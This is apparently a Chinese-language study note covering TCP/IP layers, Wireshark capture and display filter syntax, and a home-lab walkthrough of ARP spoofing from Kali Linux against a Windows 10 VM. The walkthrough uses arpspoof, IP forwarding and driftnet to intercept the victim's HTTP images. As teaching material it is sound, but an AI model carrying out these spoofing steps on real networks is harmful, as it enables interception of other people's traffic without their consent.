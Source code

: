 ## 协议

TCP/IP 协议族

- 网络接口层(没有特定的协议): PPPOE, 物理层，数据链路层
- 网络层: IP(4,6), ARP(地址解析协议)，RARP ICMP(Internet控制报文协议) IGMP
- 传输层: TCP(传输控制协议)  UDP(用户数据报协议)
- 应用层：都是基于传输层协议的端口，总共0-65535  DHCP  DNS  HTTP HTTPS FTP SMTP POP3 IMAP

## 流量抓取工具wireshark

### 一、网卡

#### 网卡模式

- 混杂模式：不管目的是否是自己，都接收
- 非混杂模式：默认情况下，主机的网卡处于此模式，不会接收目的非自己的数据

#### 界面认识

#### 两种过滤器

- 捕获过滤器：在抓包之前先进行过滤（只抓某种类型的包或者不抓某些类型的包）
- 显示过滤器：抓包前抓包后都可以进行过滤，但是不影响抓取的包（会抓取所有的包，只不过在查看的时候只显示某些包）

#### 过滤器

- 捕获过滤器

  - 类型：host  net  port
  - 方向：src  dst
  - 协议：ether  ip  tcp  udp  http  ftp ...
  - 逻辑运算符: &&  ||  !

  ```powershell
  #抓取源 IP为 192.168.18.14并且目标端口为 80 的报文
  src host 192.168.18.14 && dst port 80
  #抓取 IP 为 192.168.18.14或者 IP 地址为 192.168.18.1
  host 192.168.18.14 || host 192.168.18.1
  #抓取非广播包
  !broadcast
  #抓取源 IP 为 192.168.18.14或者源192.168.18.0/24， 目的 TCP 端口号在 200-1000 之间，并且目的位于129.0.0.0/8
  (src host 192.168.18.14 || src 192.168.18.0/24) && (dst portrange 200-1000 && dst net 129.0.0.0/8)
  ```

- 显示过滤器

  - 比较操作符： ==(eq), !=(neq), >(gt), <(lt), >=(ge), <=(le)
  - 逻辑操作符: and(&&), or(||), not
  - IP 地址过滤: ip.addr   ip.src   ip.dst
  - 端口过滤: tcp.port   udp.port   tcp.dstport   tcp.flag.syn   tcp.flag.ack
  - 协议过滤: arp   ip   icmp   udp    tcp   http

  ```powershell
  #显示源 IP 等于 192.168.18.14并且 tcp 端口为 443
  ip.src==192.168.18.14 and tcp.port==443
  #显示源不为 192.168.18.14 或者目的不为 202.98.96.68
  ip.src!=192.168.18.14 or ip.dst!=202.98.96.68
  ```

  

## 实施ARP欺骗和攻击

### 一、环境

- Kali Linux
  - 安装一个arpspoof
- win10
  - 被攻击主机

### 二、Kali配置

- Kali Linux系统是基于debian Linux系统，采用deb包管理方式，可以使用apt源的方式进行直接从源安装
- 配置源

```bash
#替换Kali阿里云镜像
vim /etc/apt/sources.list
#中科大
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
#阿里云
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib

#apt-get update更新时会报 The following signatures were invalid: EXPKEYSIG ED444FF07D8D0BF6 Kali Linux Repository <devel@kali.org>
#从官网下载签名并安装
root@kali:~# wget archive.kali.org/archive-key.asc
root@kali:~# apt-key add archive-key.asc

root@kali:~# apt-get update
```

- 安装dsniff `apt-get install dsniff`
- 安装driftnet `apt-get install driftnet`

### 三、欺骗与攻击

- Kali 和 Win10连在同一个内网。VMWare选择桥接模式。编辑 -> 虚拟机网络编辑器 -> 选择联网的网卡。
- 查看Kali的ip和网关

```bash
ifconfig  #ip  192.168.31.223
route -n  #网关
```

- 查看Win10的ip和网关

```powershell
ipconfig 
```

- 确定Kali和Win10的网关是否一致

```bash
arpspoof -i eth0 -t 192.168.31.108 192.168.31.1
# -i 指定网关
# -t 指定win10的ip地址和网关
```

- win10中查看arp缓存

```powershell
arp -a
# 发现网关192.168.31.1的mac地址是kali的mac地址，此时win10上不去网
```

- kali开启ip转发功能

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
#打开driftnet,win10中访问http网站时可以将网站里的图片显示在kali里的driftnet工具里，达到了攻击效果
driftnet -i eth0 
```

